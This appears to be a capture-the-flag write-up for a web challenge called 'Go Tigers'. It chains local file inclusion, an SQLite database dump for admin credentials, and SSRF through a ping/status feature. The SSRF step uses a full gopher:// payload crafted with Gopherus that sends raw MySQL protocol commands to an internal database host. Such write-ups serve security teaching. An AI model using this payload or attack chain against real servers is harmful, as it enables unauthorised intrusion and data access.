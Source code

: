 # Go Tigers
## Flag Format
flag{xxxxx}
## Hint
`no hint`
## Solution
Challenge : https://tigers.ctf.cert.unlp.edu.ar/

I entered this website and found two input box.

| Input             | About                                                                |
| ----------------- | ------------------------------------------------------------------ |
| First Box |   SQL Injection , search by tiger_id   |
| Second Box |  Local File Include    |

![](pic/1.jpg)

I used second input box to make the php error.
So It appear error and location of index.php at `/var/www/html/index.php`
![](pic/2.jpg)

let's read index.php and I found sth interesting at line 6. `../tiger.db`
![](pic/3.jpg)

So you can dump this file and open it with `DB Browser (SQLite)`
you will get password for login at `/admin.php` (you can get it from robots.txt)
![](pic/4.jpg)

We can read admin.php by the same as old method.
And We will know this website can check status by ping command and may do Command Injection,
SSRF attack or something else.I tried to bypass escapeshellcmd and escapeshellarg but It's very difficult to bypass.
I cannot pass after this mama T-T.
![](pic/6.jpg)
![](pic/7.jpg)

By observing at the db_status, we can connect mysqlsafedb.com:3306.
From name of challenge it hint us at `"GO"` word.
There is a protocol that can connect to mysql which is `gopher://`
So I found tools for craft exploit payload => [Gopherus](https://github.com/tarunkant/Gopherus)
and We can get mysql username from comment in admin.php.

Payload :
```
gopher://127.0.0.1:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%53%48%4f%57%20%44%41%54%41%42%41%53%45%53%3b%01%00%00%00%01
```
![](pic/8.jpg)

Change hostname in payload to  `mysqlsafedb.com:3306` and Use this to exploit.

GOTCHA.
Finally, I got the flag.

![](pic/9.jpg)

